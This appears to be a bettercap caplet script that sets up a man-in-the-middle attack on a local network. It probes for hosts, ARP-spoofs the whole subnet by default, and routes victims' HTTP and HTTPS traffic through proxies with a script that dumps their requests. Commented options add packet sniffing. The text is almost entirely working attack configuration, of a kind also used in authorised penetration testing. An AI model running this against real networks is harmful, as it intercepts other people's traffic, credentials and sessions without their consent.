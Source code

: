 # targeting the whole subnet by default, to make it selective:
#
#   sudo ./bettercap -caplet http-req-dump.cap -eval "set arp.spoof.targets 192.168.1.64"

# to make it less verbose
# events.stream off

# discover a few hosts
net.probe on
sleep 1
net.probe off

# uncomment to enable sniffing too
# set net.sniff.verbose false
# set net.sniff.local true
# set net.sniff.filter tcp port 443
# net.sniff on

# we'll use this proxy script to dump requests
set https.proxy.script http-req-dump.js
set http.proxy.script http-req-dump.js
clear

# go ^_^
http.proxy on
https.proxy on
arp.spoof on
